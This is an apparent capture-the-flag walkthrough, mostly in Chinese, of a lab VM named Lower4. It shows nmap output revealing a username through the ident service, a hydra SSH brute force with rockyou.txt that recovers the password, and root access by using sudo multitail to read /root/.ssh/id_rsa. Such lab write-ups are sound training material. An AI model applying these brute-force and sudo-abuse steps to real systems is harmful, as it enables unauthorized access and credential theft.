



## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Low |

## Nmap

```
[root@kali] /home/kali/Lower4  
❯ nmap 192.168.56.120 -sV -A                                                

PORT    STATE SERVICE VERSION                                                                                                                                                              
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
|_auth-owners: root
80/tcp  open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Apache2 Debian Default Page: It works
113/tcp open  ident?
|_auth-owners: lucifer
MAC Address: 08:00:27:DE:A3:91 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

从**113**端口上扫描到一个用户名：**lucifer**

尝试使用**ssh**爆破

## Hydra

```
[root@kali] /home/kali/Lower4  
❯ hydra -l lucifer -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.120  -I                                                                                                          ⏎
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 20:10:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://192.168.56.120:22/
[STATUS] 227.00 tries/min, 227 tries in 00:01h, 14344178 to do in 1053:11h, 11 active
[22][ssh] host: 192.168.56.120   login: lucifer   password: 789456123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-15 20:12:07
```

得到密码是**789456123**



## Root

查看特殊命令

```
lucifer@lower4:~$ sudo -l
Matching Defaults entries for lucifer on lower4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucifer may run the following commands on lower4:
    (root) NOPASSWD: /usr/bin/multitail
```

可以直接通过这个命令查看**ssh**私钥

```
lucifer@lower4:~$ sudo /usr/bin/multitail /root/.ssh/id_rsa
```



也可以使用**\-l**参数进行执行命令，但这里无法正常开始**bash**，需要间接执行。



## Summary

比较简单的一个靶机，**Nmap**泄露出用户名，然后爆破登录拿到**user**。通过**multitail**的直接读取或者命令执行提升到**root**。
